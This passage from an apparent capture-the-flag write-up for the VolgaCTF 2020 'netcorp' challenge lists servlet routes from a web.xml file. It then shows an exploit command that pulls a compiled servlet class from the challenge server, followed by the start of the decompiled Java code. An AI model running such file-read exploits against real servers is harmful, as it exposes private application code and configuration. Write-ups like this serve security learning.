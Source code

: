 ```xml
                <servlet-name>ServeComplaint</servlet-name>
                <display-name>ServeComplaint</display-name>
                <description>Complaint info</description>
                <servlet-class>ru.volgactf.netcorp.ServeComplaintServlet</servlet-class>
        </servlet>

        <servlet-mapping>
                <servlet-name>ServeComplaint</servlet-name>
                <url-pattern>/ServeComplaint</url-pattern>
        </servlet-mapping>

        <error-page>
                <error-code>404</error-code>
                <location>/404.html</location>
        </error-page>
</web-app>
```

So, we see two routes:

- /ServeScreenshot
- /ServeComplaint

And now we can retrive code of the servlets cause we have known names of packages that contain target methods.

Exploit:
```bash
python 48143.py -f "WEB-INF/classes/ru/volgactf/netcorp/ServeScreenshotServlet.class" netcorp.q.2020.volgactf.ru
```

But there is no `*.java` file for that servlet, and we can modify the exploit to save `*.class` file to local file and decompile it after download.

Decompile file with http://www.javadecompilers.com/ and get the following code:

```java
// 
// Decompiled by Procyon v0.5.36
// 

package ru.volgactf.netcorp;

import java.security.NoSuchAlgorithmException;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.io.IOException;
import java.io.PrintWriter;
import java.util.Iterator;
import javax.servlet.http.Part;
import java.io.File;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.ServletException;
import javax.servlet.ServletConfig;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.http.HttpServlet;

@MultipartConfig
public class ServeScreenshotServlet extends HttpServlet
{
    private static final String SAVE_DIR = "uploads";
    
    public ServeScreenshotServlet() {
        System.out.println("ServeScreenshotServlet Constructor called!");
    }
```